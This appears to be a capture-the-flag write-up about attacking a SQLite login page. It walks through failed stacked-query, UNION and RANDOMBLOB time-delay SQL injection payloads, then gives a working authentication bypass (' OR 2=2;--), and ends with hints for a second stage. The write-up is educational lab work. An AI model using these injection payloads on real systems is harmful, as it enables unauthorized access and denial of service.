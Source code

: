 ```sql

1|veryinsecure|tom
2|LUL|admin
```

## My attempts

username: `b'; INSERT INTO users (password, username) VALUES('LUL', 'admin');--`, password: `a`

`SELECT id FROM users WHERE password = 'a' AND username = 'b'; INSERT INTO users (password, username) VALUES('LUL', 'admin');--'`

username: `b'; INSERT INTO users (password, username) VALUES('LUL', 'orz');--`, password: `a`

Then try to login normally ... Nothing works at all.

Try to insert with id as well but still doesn't work.

username: `b' UNION SELECT id FROM users WHERE username = 'admin' LIMIT 1;--`, password: `a`

The following recon also not working ...

username: `1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))));--`

Briefly sleep for 1-2 seconds (locally)

`SELECT id FROM users WHERE password = 'sf' AND username = '1' OR 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))));--'`

Sleep for a few seconds... (locally)

username:`1' OR 7=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(900000000/2))));--`

`SELECT 1 FROM users WHERE 7=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(900000000/2))));--`
Error: out of memory

But on the actual instance it returns almost instantly.

... So nothing is working at all.

## Solution

After a quick peek on others' writeup, I finally notice that we are not required to login as admin.

Seriously, *#$% you.

So all we need to do is just need to make it pass the login page...

username: whatever, password: `' OR 2=2;--`

`SELECT id FROM users WHERE password = '' OR 2=2;-- AND username = 'b';`

I really hope the hint can tell us something about our aim. Maybe the table has no username field at all.

Inside the page, we have part 2 -- A table with 3 fields (City, Address, Phone) and a search box of City.

One of the hint is `Maybe all the tables`
